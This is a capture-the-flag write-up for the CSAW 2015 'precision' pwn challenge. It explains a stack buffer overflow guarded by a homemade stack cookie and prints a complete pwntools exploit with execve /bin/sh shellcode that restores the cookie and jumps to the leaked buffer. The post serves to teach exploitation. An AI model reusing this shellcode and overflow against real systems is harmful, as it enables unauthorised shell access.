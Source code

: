 ```yaml
---
author: 4rbit3r
layout: post
title: 'Cookies are Delicious - CSAW 2015 Exploitation 100 Writeup'
categories:
- pwn
keywords: CTF, 
summary: CSAW 2015 pwn 100 challenge writeup
---
```


The binary prints out the address of the buffer during execution and also presents a blatant buffer overflow with the scanf(`%s`). Checking out the binary in gdb-peda showed that NX was disabled. So the scenario I thought was `Buffer overflow with ASLR on 
and possible return to shellcode.`

But the problem with this method is that a variable resembling a stack-cookie is placed at a higher memory address compared to the buffer. The program, before the epilogue, checks whether or not the value of this stack-cookie has been altered. If it has been altered, then the program calls exit() which renders our overflow useless.

So what we need to do is to overflow the buffer in such a way that the stack-cookie is overwritten with its original value itself. The cookie is at an offset of 128 bytes from the starting of the buffer and it is 10 bytes long.So the only thing left to do is to write a nice python code to do all this for us.

**Expecto Pythonum**

{% highlight python lineos %}
from pwn import *
context.binary="precision"
host="54.173.98.115"
port=1259
p=remote(host,port)
context.bits=32
msg=p.recvline()
print msg
buf_addr = int( msg[msg.find(":")+2:],16)#the address of buffer which is being printed onto the screen
print hex(buf_addr)
shellcode= "\x31\xc0\xb0\x30"
	   +"\x01\xc4\x30\xc0"
 	   +"\x50\x68\x2f\x2f"
	   +"\x73\x68\x68\x2f"
	   +"\x62\x69\x6e\x89"
	   +"\xe3\x89\xc1\xb0"
	   +"\xb0\xc0\xe8\x04"
	   +"\xcd\x80\xc0\xe8"
	   +"\x03\xcd\x80"
payload=shellcode
payload+="B"*(128-len(shellcode))
payload+=pack(0x475a31a5)+pack(0x40501555)+"\xe0\x85"  #the value of the stack-cookie
payload+="C"*10     #rest of padding required to reach saved instruction pointer
payload+=pack(buf_addr)
p.sendline(payload)
p.interactive()
{%endhighlight%}

....Aaaand Voila! Shell..
